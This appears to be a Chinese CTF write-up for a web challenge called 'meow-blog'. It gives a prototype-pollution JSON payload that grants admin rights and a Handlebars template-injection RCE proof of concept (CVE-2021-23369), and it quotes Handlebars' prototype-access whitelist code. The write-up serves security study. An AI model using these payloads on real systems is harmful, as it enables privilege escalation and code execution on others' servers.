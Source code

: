 ## Web
### meow-blog

 原型链污染，获取admin权限
 
![](attachments/Pasted%20image%2020231017203527.png)

`{"username":"wum0nster","password":"123","submit":[{"__proto__":{"user":{"id":1,"username":"admin","style":"wum0nster"}}},"1"]}`

模板注入漏洞点

![](attachments/Pasted%20image%2020231018083914.png)

![](attachments/Pasted%20image%2020231018084420.png)

[Prototype Pollution in handlebars · CVE-2021-23383 · GitHub Advisory Database](https://github.com/advisories/GHSA-765h-qjxv-5f44)

[Remote Code Execution (RCE) in handlebars | CVE-2021-23369 | Snyk](https://security.snyk.io/vuln/SNYK-JS-HANDLEBARS-1056767)

```js
<script src="https://cdn.jsdelivr.net/npm/handlebars@latest/dist/handlebars.js"></script> 
<script> 
// compile the template 
var s = ` 
{{#with (__lookupGetter__ "__proto__")}} 
{{#with (./constructor.getOwnPropertyDescriptor . "valueOf")}} 
{{#with ../constructor.prototype}} 
{{../../constructor.defineProperty . "hasOwnProperty" ..}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{#with "constructor"}} 
{{#with split}} 
{{pop (push "alert('Vulnerable Handlebars JS when compiling in strict mode');")}} 
{{#with .}} 
{{#with (concat (lookup join (slice 0 1)))}} 
{{#each (slice 2 3)}} 
{{#with (apply 0 ../..)}} 
{{.}} 
{{/with}} 
{{/each}} 
{{/with}} 
{{/with}} 
{{/with}} 
{{/with}} 
`; 
var template = Handlebars.compile(s, { 
strict: true 
}); 
// execute the compiled template and print the output to the console console.log(template({})); 
</script>
```

[运行时参数 | Handlebars中文文档 | Handlebars中文网 (handlebarsjs.cn)](https://www.handlebarsjs.cn/api-reference/runtime-options.html#%E6%8E%A7%E5%88%B6%E5%8E%9F%E5%9E%8B%E8%AE%BF%E9%97%AE%E7%9A%84%E9%80%89%E9%A1%B9)

在题目环境中升级到了4.7.7，禁用原本的一些键

![](attachments/Pasted%20image%2020231018093750.png)



对应函数[handlebars.js/lib/handlebars/internal/proto-access.js at 1fc4ef09c1ac0ffb4c0f88ca685f44d1e0f32f89 · handlebars-lang/handlebars.js (github.com)](https://github.com/handlebars-lang/handlebars.js/blob/1fc4ef09c1ac0ffb4c0f88ca685f44d1e0f32f89/lib/handlebars/internal/proto-access.js#L27)

```JS
export function createProtoAccessControl(runtimeOptions) {
  let defaultMethodWhiteList = Object.create(null);
  defaultMethodWhiteList['constructor'] = false;
  defaultMethodWhiteList['__defineGetter__'] = false;
  defaultMethodWhiteList['__defineSetter__'] = false;
  defaultMethodWhiteList['__lookupGetter__'] = false;

  let defaultPropertyWhiteList = Object.create(null);
  // eslint-disable-next-line no-proto
  defaultPropertyWhiteList['__proto__'] = false;

  return {
    properties: {
      whitelist: createNewLookupObject(
        defaultPropertyWhiteList,
        runtimeOptions.allowedProtoProperties
      ),
      defaultValue: runtimeOptions.allowProtoPropertiesByDefault,
    },
    methods: {
      whitelist: createNewLookupObject(
        defaultMethodWhiteList,
        runtimeOptions.allowedProtoMethods
      ),
      defaultValue: runtimeOptions.allowProtoMethodsByDefault,
    },
  };
}
```

